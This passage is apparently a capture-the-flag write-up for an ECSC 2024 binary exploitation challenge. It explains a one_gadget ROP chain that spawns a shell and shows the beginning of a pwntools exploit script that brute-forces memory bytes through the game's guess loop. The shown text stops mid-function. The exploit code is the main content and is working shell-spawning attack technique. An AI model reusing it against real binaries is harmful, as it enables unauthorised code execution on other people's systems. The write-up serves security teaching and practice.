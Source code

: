Now that the entire libc is available, the second ROP chain can just return to `one_gadget` and get a shell.

```
ONE_GADGET = libc_base + 0xe3b01        # execve("/bin/sh", r15, rdx)
ropchain = p64(ONE_GADGET)
```

Since both `$r15` and `$rdx` are already set to zero, no additional tweak is needed.

## Exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import time
from pwn import *

HOST = os.environ.get("HOST", "yetanotherguessinggame.challs.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38010))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'build/yet_another_guessing_game'), checksec=False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

def play(payload, io, next=True):
    io.sendafter(b'Guess the secret!\n', payload)
    next = b"y" if next else b"n"
    res = True if b"You win!" in io.recvline() else False
    io.sendafter(b"Wanna play again? (y/n)\n", next)
    return res

def brute_block(io, padding, block_prefix, block_len):
    block = b""
    while True:
        found = False
        for c in range(1, 256):
            guess = block_prefix + block + p8(c) + b"\x00"
            guess = guess + b"A" * (0x8 - len(guess))

            payload = padding                                   # input
            payload += guess                                    # input
            payload += b"A" * (0x28 - len(payload))             # input
            payload += padding                                  # secret starts here
            payload += block_prefix + block

            if play(payload, io):
                found = True
                block += p8(c)
                print(f"[+] found {len(block)}/{block_len}")
                break

        if not found:
```